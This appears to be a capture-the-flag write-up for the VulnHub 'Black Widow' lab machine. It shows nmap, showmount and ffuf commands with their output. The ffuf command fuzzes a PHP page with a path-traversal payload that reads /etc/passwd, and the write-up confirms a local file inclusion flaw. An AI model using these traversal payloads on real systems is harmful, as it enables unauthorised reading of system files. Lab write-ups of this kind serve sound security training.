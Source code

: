 ```yaml
---
layout: default
title : muzec - Black Widow Writeup
---
```



### Enumeration With Nmap

We always start with an nmap scan.....

```Nmap -sC -sV -p- -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Thu Sep 30 08:52:02 2021 as: nmap -sC -sV -p- -oA nmap 172.16.139.233
Nmap scan report for 172.16.139.233
Host is up (0.00059s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f8:3b:7c:ca:c2:f6:5a:a6:0e:3f:f9:cf:1b:a9:dd:1e (RSA)
|   256 04:31:5a:34:d4:9b:14:71:a0:0f:22:78:2d:f3:b6:f6 (ECDSA)
|_  256 4e:42:8e:69:b7:90:e8:27:68:df:68:8a:83:a7:87:9c (ED25519)
80/tcp    open  http       Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      37755/udp   mountd
|   100005  1,2,3      43495/tcp6  mountd
|   100005  1,2,3      46913/tcp   mountd
|   100005  1,2,3      52357/udp6  mountd
|   100021  1,3,4      34843/udp   nlockmgr
|   100021  1,3,4      37303/tcp6  nlockmgr
|   100021  1,3,4      43539/tcp   nlockmgr
|   100021  1,3,4      50172/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl    3 (RPC #100227)
3128/tcp  open  http-proxy Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
38547/tcp open  mountd     1-3 (RPC #100005)
43539/tcp open  nlockmgr   1-4 (RPC #100021)
46913/tcp open  mountd     1-3 (RPC #100005)
57743/tcp open  mountd     1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 30 08:52:17 2021 -- 1 IP address (1 host up) scanned in 15.22 seconds
```

Some interesting ports we have 22,80,2049 and 3128 found it cool really let start digging.


### PORT 2049

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/widow]
└─$ showmount -e 172.16.139.233 
```

![image](https://user-images.githubusercontent.com/69868171/135458590-57b92c38-82cc-4943-964b-61b409e0da67.png)

We have nothing i also check the squid proxy port and nothing also time to dig into the HTTP port 80.

![image](https://user-images.githubusercontent.com/69868171/135458899-0d26e251-bb39-4cf6-ad50-737ff7066b1a.png)

We have a directory `company` let try to access it.

![image](https://user-images.githubusercontent.com/69868171/135459001-44792c9c-5cd9-4b74-a5a3-0d6faf3578aa.png)


Let try to dig around.

![image](https://user-images.githubusercontent.com/69868171/135459185-2a0fad1b-3262-4974-9d1e-02e8608cb3de.png)

Click on the `Get Started` page we are redircted to a page note:- we need to add our IP and blackwidow to our `/etc/hosts` file and we should be good to go.


### FUZZING FOR PARAMETERS

Since we have nothing interesting the page and we know the `started` page is having a `php` extension at the back let try to fuzzer for parameter maybe it vulnerable to LFI.


![image](https://user-images.githubusercontent.com/69868171/135459971-e72429f9-4893-4c09-a8a8-74c3aa0ade12.png)

We keep getting errors so let add the size to the `ffuf` commands.


```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/widow]
└─$ ffuf -c -ic -r -u 'http://blackwidow/company/started.php?FUZZ=../../../../../../../../../../../../../../etc/passwd' -w /usr/share/seclists/Discovery/Web-Content/common.txt -fs 42271

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://blackwidow/company/started.php?FUZZ=../../../../../../../../../../../../../../etc/passwd
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 42271
________________________________________________

file                    [Status: 200, Size: 1582, Words: 15, Lines: 30]
:: Progress: [4681/4681] :: Job [1/1] :: 555 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```


Boom we have a parameter let test it.


![image](https://user-images.githubusercontent.com/69868171/135460945-f7b4efe5-deef-45d5-b628-008f645c883e.png)

We have LFI now let try to check if we can access the log file.

